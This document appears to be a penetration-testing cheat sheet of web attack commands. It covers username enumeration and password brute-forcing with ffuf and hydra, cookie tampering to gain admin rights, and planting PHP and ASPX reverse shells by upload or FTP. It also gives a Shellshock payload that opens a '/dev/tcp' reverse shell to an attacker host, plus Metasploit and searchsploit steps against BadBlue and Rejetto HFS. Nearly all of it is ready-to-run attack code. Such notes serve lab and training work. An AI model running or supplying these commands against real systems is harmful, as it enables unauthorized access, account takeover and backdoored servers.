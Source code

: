 # Web Exploitations

## Authentication Bypass

### Username enumeration

If the login or register page tell me a message like this when i try to use a username: "**An account with this username already exists**". We can use some tools to enumerate valid users.

{% code title="ffuf" overflow="wrap" %}
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=X&password=X&cpassword=X" -H "Content-Type: application/x-www-form-urlencoded" -u http://DOMAIN.COM/customers/signup -mr "username already exists"

# -w: specific a list of usernames
# -X: set request method
# -d: specify the parameters with FUZZ par
# -H: set header
# -u: indicate the URL
# -mr: message which indicate that user is already exists
```
{% endcode %}

### HTTP Login Brute Force&#x20;

{% code title="hydra" overflow="wrap" %}
```bash
# first check the source code of the web page
# check the request method (POST,GET,...)
# check the login variable (user, password)
# check the error response in case of invalid creds

# use hydra tool to do login brute force
hydra -L usernames -P passwords IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```
{% endcode %}

{% code title="ffuf" overflow="wrap" %}
```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://$URL/login -fc 200

# -w: declare wordlists into variables W1 and W2
# -d: set parameters with the Wordlist declared before
# -fc: positive match, avoid HTTP response 200
```
{% endcode %}

### Basic HTTP Auth Brute force

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/500-worst-passwords.txt DOMAIN.com http-get "/login/page/"                                                               
```
{% endcode %}



### Logic Flaw

Try to check the logic of these pages/actions for a website to find authentication bypasses:

* Reset Password Logic
* Login page Logic
* Register page Logic

#### Create a "doppelganger"

To create a new user with the same name as the target user but with a space at the beginning of the name, follow these steps..

For hacking the user **admin**. We have to create a user with this name " `admin`" (without quotes). In this way all the query for this new user will be  the same of the target user.

### Cookie Tampering

**Examining and editing the cookies** set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

If we have this cookies in a website:

```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```

We can change this cookie like this to become a Admin:

```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=true; Max-Age=3600; Path=/
```



## Put file in '/uploads' folder

```bash
#! copy a revshell in php  
cp /usr/share/webshells/php/php-reverse-shell.php .
# or generate a payload 
msfvenom -p php/meterpreter_reverse_tcp lhost=IP lport=PORT -o shell.php

# Request to upload a file with revshell
curl http://IP/uploads/ --upload-file php-reverse-shell.php

# Delete file uploaded
curl -X DELETE http://IP/uploads/php-reverse-shell.php
```



## Backdoor Web via FTP

**Required:**

* WebServer connection via FTP
* User permissions to add file in web directory&#x20;

```bash
# Prepare the shell
ls -la /usr/share/webshells/
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
# Once we're in a web dir via ftp
put shell.php
```

```bash
# .aspx Payload
## create payload
msfvenom -p windows/shell/reverse_tcp LHOST=ATT_IP LPORT=ATT_PORT -f asp > shell.aspx
## -p: paylaod to use
## LHOST: attacker ip
## LPORT: attacker listener port
## -f: output format

## put payload via ftp (in ftp connection)
put shell.aspx

# set up msfconsole handler
service postgresql start && msfconsole
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST ATT_IP
set LPORT ATT_PORT
```



## Targeting PHP

```bash
# PHP Enum file
/phpinfo.php


# Search vulnerable php version
searchsploit php cgi
## Select a exploit and copy it
searchsploit -m EXPLOIT_ID
vim EXPLOIT_ID
```



## Know vulns

### Shellshock

#### Manual Exploitation

```bash
# Search a .cgi sccript
 
# Run nmap script for shellshock vuln check
nmap -sV $IP --script=http-shellshock --script-args "http-shellshock.uri=/$SCRIPT.cgi"
 
# intercect the request with .cgi script vuln and edit the User-Agent header with Burp Suit
GET /test.cgi
user-Agent: () { : ; }; echo; echo; /bin/bash -c '$CMD'
 
# get a revshell
# edit $CMD field with rev shell (burp)
bash -i >/dev/tcp/$IP/$PORT 0>&1
 
# set listener port in kali machine
nc -lnvp $PORT
```

#### Automatic Explotation

```bash
#start metasploit console with database
service postgresql start && msfconsole
 
#search, conf and run metasploit module
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS IP
set RPORT PORT
set TARGETURI SCRIPT_PATH
exploit
```

### Badblue (2.7)

#### Metasploit Exploitation

```bash
searchsploit BadBlue 2.7

# BadBlue 2.7
service postgresql start && msfconsole
search BadBlue
use exploit/windows/http/badblue_passthru
set RHOSTS IP
show options
exploit
```



### Rejetto (HttpFileServer 2.3)

#### Manual Exploitation

```bash
# Search exploit
searchsploit rejetto
# Copy the script
searchsploit -m 39161
```

1. Read and edit python script (ip\_addr, local\_port)
2. Set listener (nc -nvlp 1234)
3. Set a python web server in a directory where there is nc.exe file (python3 -m http.server 80)\
   -> (/usr/share/windows-resources/binaries)
4. run the script (python3 39161.py IP PORT)

#### Metasploit Exploitation

```bash
service postgresql start && msfconsole
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS
set TARGETURI
exploit
```
